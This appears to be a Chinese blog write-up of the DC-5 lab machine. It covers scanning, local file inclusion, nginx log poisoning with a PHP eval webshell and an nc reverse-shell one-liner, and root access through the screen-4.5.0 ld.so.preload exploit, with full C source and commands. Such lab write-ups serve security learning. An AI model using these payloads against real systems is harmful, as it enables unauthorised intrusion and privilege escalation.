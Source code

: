 ```yaml
---
layout: post
title: DC-5
subtitle: DC-5
date: 2025-07-14 09:42
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```


扫描IP，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/5EIqko.png)

nmap 扫描端口

![image.png](https://img.ghostliner.top/3eEhul.png)

扫描目录

```shell
dirsearch -u http://192.168.163.131
```

![image.png](https://img.ghostliner.top/NKfI1N.png)

访问 `thankyou.php` 发现页面每次访问年份有变化，猜测有文件包含

![image.png](https://img.ghostliner.top/AkVtmi.png)

wfuzz测试

```shell
wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt -u http://192.168.163.131/thankyou.php?FUZZ=index.php --hw 66
```

![image.png](https://img.ghostliner.top/uJqh3W.png)

查看passwd文件: <http://192.168.163.131/thankyou.php?file=file:///etc/passwd>
![image.png](https://img.ghostliner.top/kW0SGs.png)

查看日志文件: <http://192.168.163.131/thankyou.php?file=file:///var/log/nginx/access.log>

日志注入

```
/thankyou.php?file=file://<?php echo qazqazqaz;eval($_REQUEST["cmd"])?>
# or
/thankyou.php?file=file://<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 5555 >/tmp/f')?>
```

蚁剑连接成功
![image.png](https://img.ghostliner.top/hMgCKv.png)

反弹shell成功，find判断是否可以提权，发现 `screen-4.5.0`
![image.png](https://img.ghostliner.top/pgAJ54.png)

搜索相关漏洞，使用 `41154.sh` 进行提权

![image.png](https://img.ghostliner.top/KwqlkT.png)

在目标机上直接执行脚本失败，在kali上编译失败。
![image.png](https://img.ghostliner.top/IPVQN9.png)

在centos7上先编译再在目标机上执行，成功提权。

**过程如下：**

安装gcc

```shell
# 1.备份
mv /etc/yum.repos.d/CentOS-Base.repo /etc/yum.repos.d/CentOS-Base.repo.backup
# 2.下载想要的源
wget -O /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
# 3.清除旧缓存数据，建立新的缓存
yum clean all
yum makecache
# 4.安装gcc
yum install -y gcc
```

创建两个文件

```shell
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
```

```shell
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
```

进行编译

```shell
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/libhax.c
rm -f /tmp/rootshell.c
```

编译成功

![image.png](https://img.ghostliner.top/n3En90.png)

将文件传送到目标机

```shell
# dc-5
cd /tmp
nc -lvp 4545 > libhax.so
# centos
nc 192.168.163.131 4545 <libhax.so
# dc-5
nc -lvp 4545 > rootshell
# centos
nc 192.168.163.131 4545 <rootshell
```

最后在目标机上执行

```shell
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

查看 `/root/thisistheflag.txt`

![image.png](https://img.ghostliner.top/EkFC3Q.png)
